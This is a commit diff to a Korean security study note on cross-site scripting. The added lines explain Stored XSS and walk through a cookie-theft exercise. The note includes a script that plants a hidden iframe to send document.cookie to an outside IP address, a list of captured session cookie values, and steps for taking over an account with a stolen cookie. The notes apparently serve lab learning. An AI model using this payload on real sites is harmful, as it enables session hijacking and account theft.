

Before and after one commit to moonimax/IOT-Security-Dev, a Markdown page: 웹 취약점/XSS.md, the part around the change. Shown at 85% size. Rendered like a GitHub page; pictures changed too: Images/Pasted image 20260731105122.png (added), Images/Pasted image 20260731112409.png (added); blank space fills up the shorter version.

Commit message:
vault backup: 2026-07-31 11:24:31

````diff
--- a/웹 취약점/XSS.md
+++ b/웹 취약점/XSS.md
@@ -29,3 +29,60 @@
 - 웹 서버에서 입력 받은 값을 서버에서 파라미터를 그대로 반환하며 발생
 - 검색창 & 모든 파라미터를 대상으로 공격 가능
 - 테이블의 구문을 파악 후 취약점 스캔
+
+---
+
+## Stored XSS
+
+취약점이 있는 웹 서버에 악성 스크립트를 영구적으로 저장.
+
+
+---
+
+## 쿠키 탈취 공격
+
+```txt
+http://121.190.160.232:81/XSSAttack/attack_cookie.txt
+
+"><script>alert(document.cookie)</script>
+// ASPSESSIONIDCSTBCQTA=KACOEGOCFMJGLNBDJLCEKEEP
+
+```
+![](../Images/Pasted%20image%2020260731105122.png)
+
+```txt
+<script> document.write("<iframe scr=http://121.190.160.232:81/XSSAttack/1.asp?cookie" + document.cookie+" width =0 height =0 > </iframe>")</script>
+```
+
+```txt
+
+-- 탈취된 쿠키값.
+ASPSESSIONIDCSTBCQTA=GACOEGOCDGLKBECBNFANBGDN
+---------------------------------------
+ASPSESSIONIDCSTBCQTA=GACOEGOCDGLKBECBNFANBGDN
+---------------------------------------
+ASPSESSIONIDCSTBCQTA=GACOEGOCDGLKBECBNFANBGDN
+---------------------------------------
+ASPSESSIONIDCSTBCQTA=GACOEGOCDGLKBECBNFANBGDN
+---------------------------------------
+ASPSESSIONIDCSTBCQTA=GACOEGOCDGLKBECBNFANBGDN
+---------------------------------------
+ASPSESSIONIDCSTBCQTA=GACOEGOCDGLKBECBNFANBGDN
+---------------------------------------
+ASPSESSIONIDCSTBCQTA=GACOEGOCDGLKBECBNFANBGDN
+---------------------------------------
+ASPSESSIONIDCSTBCQTA=HOONEGOCIKLNFDCEKHCCDNFH
+---------------------------------------
+ASPSESSIONIDCSTBCQTA=HOONEGOCIKLNFDCEKHCCDNFH
+---------------------------------------
+ASPSESSIONIDCSTBCQTA=GACOEGOCDGLKBECBNFANBGDN
+```
+
+**시나리오**
+1. 사용자 게시판 접속
+2. 쿠키 탈취되어 개별 txt에 쿠키 저장
+3. 웹 서버에 다른 사용자 쿠키 값으로 변경 시 계정 탈취 가능
+
+기존 로그인 정보값
+- mmmm > asdqwe(hacker) 값으로 변경
+![](../Images/Pasted%20image%2020260731112409.png)
````
Also changed, not shown: 1 other file.
